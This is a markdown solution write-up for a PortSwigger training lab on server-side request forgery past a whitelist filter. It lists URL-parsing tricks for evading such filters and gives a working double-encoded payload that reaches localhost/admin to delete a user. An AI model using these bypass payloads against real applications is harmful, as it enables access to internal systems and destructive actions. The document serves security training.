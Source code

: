 # [Lab: SSRF with whitelist-based input filter](https://portswigger.net/web-security/ssrf/lab-ssrf-with-whitelist-filter)

## Lab

This lab has a stock check feature which fetches data from an internal system

To solve the lab, change the stock check URL to access the admin interface at `http://localhost/admin` and delete the user `carlos`.

The developer has deployed an anti-SSRF defense you will need to bypass.

## bypass whitelist-based

Some applications only allow input that matches, begins with, or contains, a whitelist of permitted values. In this situation, you can sometimes circumvent the filter by exploiting inconsistencies in URL parsing.

The URL specification contains a number of features that are liable to be overlooked when implementing ad hoc parsing and validation of URLs:

- You can embed credentials in a URL before the hostname, using the @ character. For example: `https://expected-host@evil-host`
- You can use the `#` character to indicate a URL fragment. For example: `https://evil-host#expected-host`
- You can leverage the DNS naming hierarchy to place required input into a fully-qualified DNS name that you control. For example: `https://expected-host.evil-host`
- You can URL-encode characters to confuse the URL-parsing code. This is particularly useful if the code that implements the filter handles URL-encoded characters differently than the code that performs the back-end HTTP request.

You can use combinations of these techniques together.

## Solution

Tried:

- `stockApi=http://stock.weliketoshop.net@localhost/admin` -> Failed
- `stockApi=http://localhost/admin#stock.weliketoshop.net` -> Failed

Double encoding -> success:

```http
http://localhost:80%2523@stock.weliketoshop.net/admin/delete?username=carlos
```

it's work because:

- filter decodes 1 time:

  ```http
  http://localhost:80%23@stock.weliketoshop.net/admin/delete?username=carlos
  ```

  - so the domain here is still `stock.weliketoshop.net`
- backend decodes 2 times:

  ```http
  http://localhost:80#@stock.weliketoshop.net/admin/delete?username=carlos
  ```

  - now the domain is localhost. => bypassed
